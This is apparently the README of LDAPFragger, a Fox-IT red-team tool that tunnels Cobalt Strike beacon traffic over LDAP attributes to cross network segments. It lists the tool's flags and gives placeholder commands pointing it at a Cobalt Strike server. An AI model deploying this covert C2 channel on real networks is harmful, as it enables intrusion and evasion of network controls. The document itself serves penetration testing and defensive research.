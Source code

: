 # LDAPFragger

LDAPFragger is a Command and Control tool that enables attackers to route Cobalt Strike beacon data over LDAP using user attributes.

For background information, read the release blog: http://blog.fox-it.com/2020/03/19/ldapfragger-bypassing-network-restrictions-using-ldap-attributes


## Dependencies and installation
* Compiled with `.NET 4.0`, but may work with older and newer .NET frameworks as well

## Usage

```
 _     _              __
| |   | |            / _|
| | __| | __ _ _ __ | |_ _ __ __ _  __ _  __ _  ___ _ __
| |/ _` |/ _` | '_ \|  _| '__/ _` |/ _` |/ _` |/ _ \ '__|
| | (_| | (_| | |_) | | | | | (_| | (_| | (_| |  __/ |
|_|\__,_|\__,_| .__/|_| |_|  \__,_|\__, |\__, |\___|_|
              | |                   __/ | __/ |
              |_|                  |___/ |___/

Fox-IT - Rindert Kramer

Usage:
     --cshost:  IP address or hostname of the Cobalt Strike instance
     --csport:  Port of the external C2 interface on the Cobalt Strike server
     -u:        Username to connect to Active Directory
     -p:        Password to connect to Active Directory
     -d:        FQDN of the Active Directory domain
     --ldaps:   Use LDAPS instead of LDAP
     -v:        Verbose output
     -h:        Display  this message

If no AD credentials are provided, integrated AD authentication will be used.
```

Example usage:

![](https://foxitsecurity.files.wordpress.com/2020/03/9.png?w=607) 


From network segment A, run
```
LDAPFragger --cshost <Cobalt Strike IP> --csport <External listener port>

LDAPFragger --cshost <Cobalt Strike IP> --csport <External listener port> -u <username> -p <password> -d <domain FQDN>
```

From network segment B, run
```
LDAPFragger 

LDAPFragger -u <username> -p <password> -d <domain FQDN>
```


LDAPS can be used with the `--LDAPS` flag, however, regular LDAP traffic is encrypted as well. Please do note that the default payload will get caught by most AVs.



